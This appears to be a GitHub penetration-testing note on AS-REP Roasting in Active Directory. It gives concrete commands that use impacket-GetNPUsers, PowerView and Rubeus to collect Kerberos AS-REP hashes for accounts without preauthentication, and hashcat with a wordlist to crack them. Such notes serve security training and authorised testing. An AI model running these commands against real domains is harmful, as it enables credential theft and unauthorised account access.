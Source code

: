 # AS-REP Roasting
**Kerberos preauthentication** [1](https://learn.microsoft.com/en-us/archive/technet-wiki/23559.kerberos-pre-authentication-why-it-should-not-be-disabled) is the process where a client sends an encrypted _timestamp_ (AS-REQ) to the domain controller to prove its identity. If valid, the domain controller responds with a session key and Ticket Granting Ticket (AS-REP).
![AD Herbros001](https://github.com/user-attachments/assets/956ed02a-0e79-4c96-bf2a-2402b1a060f9)

## **Perform AS-REP Roasting on Kali:**

1. **Command Syntax**: Use the following command to request the **TGT** (Ticket Granting Ticket) and capture the AS-REP hashes:
    
    ```bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -request -outputfile <output_file> <Domain/User>
    ```
- For no password
   ``` bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -no-pass -outputfile <output_file> <Domain/User>
   ```
- You have a list of users
  ``` bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -no-pass -usersfile <user.lst> -outputfile <output_file> <Domain/>
  ```
    Example:
``` shell
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
impacket-GetNPUsers -dc-ip 10.10.10.192  -no-pass -usersfile user.lst -outputfile hhsh blackfield/
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in Hashcat format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r rules/best64.rule --force
```
## AS-REP Roasting on Windows (joined domain):
###  Identify Users with Kerberos Preauthentication Disabled on joined windows machine 
First, we run the PowerView `Get-DomainUser` command with the `-PreauthNotRequired` option to find users who have Kerberos preauthentication disabled:
```powershell
Get-DomainUser -PreauthNotRequired
```
By using use _Rubeus_,[4](https://github.com/GhostPack/Rubeus)
Compiled Version [->](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools)

``` powershell
.\Rubeus.exe asreproast /nowrap
```
#### On BloodHound we Discover it as:
![image](https://github.com/user-attachments/assets/aab7c819-2b90-464d-af8e-7b947d8cd596)




